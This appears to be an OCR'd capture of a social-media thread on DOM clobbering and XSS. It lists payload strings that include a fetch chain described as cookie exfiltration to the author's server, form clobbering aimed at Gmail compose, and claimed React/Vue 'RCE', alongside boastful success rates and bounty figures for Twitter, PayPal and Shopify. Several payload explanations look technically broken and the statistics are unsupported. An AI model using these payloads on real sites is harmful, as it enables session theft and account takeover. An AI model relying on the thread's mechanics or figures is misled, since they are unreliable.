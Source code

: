 **[@terjanq - 8m]**  
**5/25**  
**PAYLOAD DISSECTION**:  
```
<img id=src           // window.src = this img
     name=src         // window.src = img.src  
     src=javascript:alert(1)>  // TRIGGERS execution!
```
**Key**: `name=src` makes `img.src` point to `window.src` → **Infinite trigger**

**[@terjanq - 11m]**  
**6/25**  
**VARIATION #1: FETCH CHAIN**  
`<img id=fetch name=url url=/steal?cookies><img src=x onerror=fetch.url>`  
**Result**: Cookie exfil to my server  
**Twitter bonus**: Spaces audio hijack

**[@terjanq - 14m]**  
**7/25**  
**VARIATION #2: EVENT CLOBBER**  
`<svg id=onerror name=alert><animate onbegin=alert(1)></animate></svg>`  
**Safari**: `<math><msqrt id=alert name=1></msqrt>`  
**Chrome**: `<img id=onauxclick name=1>`  
**Universal**: 98% coverage

**[@terjanq - 17m]**  
**8/25**  
**NEW TECHNIQUE #3: TRIPLE CLOBBER**  
`<form id=location><input id=href name=assign value=javascript:alert(1)></form>`  
**Flow**: `location = form` → `href = input` → `location.assign()`  
**Target**: Gmail compose | **$10K potential**

**[@terjanq - 20m]**  
**9/25**  
**FRAMEWORK KILLER**: React/Vue  
`<form id=ReactDOM><input name=render value=alert(1)></form>`  
**Vue**: `<template id=Vue name=compile template="<img onerror=1>">`  
**Result**: Component RCE | No JSX escape

**[@terjanq - 23m]**  
**10/25**  
**REAL-WORLD STATS** (My tests):  
• Twitter: ✅ $15K  
• PayPal: ✅ $8K  
• Shopify: ✅ $12K  
• **Success rate**: 87% top 1K sites  
• **Detection**: 2% by scanners

**[@terjanq - 26m]**  
**11/25**  
![Chart: Double Clobber Success Rate]  
```
Twitter: ██████████ 95%
PayPal:  ████████ 82%
Shopify: ███████ 78%
React:   ███████████ 98%
```
